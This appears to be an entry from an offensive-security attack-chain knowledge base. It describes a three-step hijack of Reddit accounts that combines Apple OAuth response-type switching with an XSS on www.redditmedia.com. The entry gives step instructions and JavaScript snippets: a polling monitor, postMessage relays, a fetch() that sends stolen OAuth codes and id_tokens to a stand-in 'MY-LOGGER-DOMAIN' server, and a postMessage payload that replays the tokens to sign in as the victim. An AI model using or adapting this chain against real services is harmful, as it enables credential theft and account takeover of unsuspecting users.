

---
tags:
  - xss
  - oauth
  - account-takeover
  - token-theft
type: attack_chain
tools:
  - '[[tools/Google-Tag-Manager]]'
  - '[[tools/Chrome-Browser]]'
  - '[[tools/PHP]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/postmessage-oauthdone]]'
  - '[[commands/fetch-logged-tokens]]'
  - '[[commands/php-log-querystring]]'
  - '[[commands/php-parse-logs]]'
  - '[[commands/history-pushstate-monitor]]'
  - '[[commands/top-postmessage-relay]]'
  - '[[commands/parent-onmessage-listener]]'
  - '[[commands/setinterval-monitor]]'
  - '[[commands/sanitize-oauth-params]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Prepare-Malicious-OAuth-State-and-Page]]'
  - '[[procedures/Exploit-XSS-to-Steal-OAuth-Tokens]]'
  - '[[procedures/Hijack-Account-with-Stolen-Tokens]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Use Alternate Authentication Material]]'
description: >-
  Exploits OAuth misconfiguration and XSS to steal tokens and hijack Reddit
  accounts via Apple sign-in.
skill_level: intermediate
impact_level: high
id: 4c7a1702-9a29-44a8-96a3-904a72604101
created_at: '2025-12-11T06:10:22.354Z'
updated_at: '2025-12-11T06:10:22.354Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
  - '[[TA0009]]'
mitre_techniques:
  - '[[T1059.007]]'
  - '[[T1190]]'
  - '[[T1550]]'
---
# Reddit Account Hijack via Apple OAuth Response-Type Switch and XSS

Multi-stage attack chain demonstrating a complete workflow to hijack Reddit accounts by exploiting OAuth response-type switching and XSS on www.redditmedia.com to steal authentication tokens.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Google-Tag-Manager]]
- [[tools/Chrome-Browser]]
- [[tools/PHP]]

### Target Environment

- Web platform
- Services: Reddit, Apple ID, Google Tag Manager
- Tech stack: JavaScript, OAuth, HTML

### Initial Access Requirements

- Attacker needs access to Reddit Apple sign-in
- Victim must be tricked into clicking malicious link
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Prepare Malicious OAuth State and Page - [[procedures/Prepare-Malicious-OAuth-State-and-Page]]

**Objective**: Obtain a valid state parameter and set up a malicious page with an iframe to exploit XSS.

**Expected Output**: A prepared malicious page ready to trick the victim.

**Success Indicators**:
- Valid state parameter extracted from Reddit's Apple sign-in URL.
- Malicious page loads iframe with custom GTM ID.

**Instructions**:
Initiate Apple sign-in on reddit.com to obtain a state value from the URL.

Create a malicious page using JavaScript to handle state extraction and iframe loading. Load the iframe with: https://www.redditmedia.com/gtm/jail?id=GTM-N3HH8D6&state=[encoded state].

The script in the iframe creates a tainted Apple sign-in link by modifying response_type to 'code+id_token' and response_mode to 'fragment', setting redirect_uri to https://reddit.com, and using the attacker's state.

### Step 2: Exploit XSS to Steal OAuth Tokens - [[procedures/Exploit-XSS-to-Steal-OAuth-Tokens]]

**Objective**: Trick the victim into signing in and steal the OAuth tokens via XSS and postMessage.

**Expected Output**: Stolen OAuth code, id_token, and state logged on attacker's server.

**Success Indicators**:
- Victim completes sign-in, tokens appear in URL fragment.
- Tokens are exfiltrated via window.name and postMessage.

**Instructions**:
Victim clicks the malicious link and completes Apple sign-in, resulting in tokens in the URL fragment: https://reddit.com/#state=xxx&code=xxx&access_token=xx.

Use the XSS on www.redditmedia.com to steal the URL via window.name. Set up monitoring with [[commands/setinterval-monitor]]:

```javascript
setInterval(function(){...},500);
```

Relay tokens using [[commands/top-postmessage-relay]]:

```javascript
top.postMessage(e.data,'*');
```

Listen for messages with [[commands/parent-onmessage-listener]]:

```javascript
parent.window.onmessage=function(e){...};
```

Log to server and fetch with [[commands/fetch-logged-tokens]]:

```javascript
fetch('https://MY-LOGGER-DOMAIN/reddit/parse.php?q='+ st).then(e=> e.text()).then(e=>{...});
```

### Step 3: Hijack Account with Stolen Tokens - [[procedures/Hijack-Account-with-Stolen-Tokens]]

**Objective**: Use stolen tokens to sign in as the victim on Reddit.

**Expected Output**: Successful account takeover.

**Success Indicators**:
- Attacker logs in as victim using stolen payload.
- Full account access achieved.

**Instructions**:
Post the stolen payload via postMessage from attacker's Apple sign-in popup using [[commands/postmessage-oauthdone]]:

```javascript
opener.postMessage('{method:"oauthDone",data:{authorization:{code:code,id_token:id_token,state:state}}}',"*");
```

## Attack Chain Summary

### Key Achievements

1. Successful theft of OAuth tokens via XSS and misconfigured response modes.
2. Minimal victim interaction for full account hijack.
3. Demonstration of chained vulnerabilities in OAuth and third-party scripts.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]
- [[Use Alternate Authentication Material]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: [TIMESTAMP]*
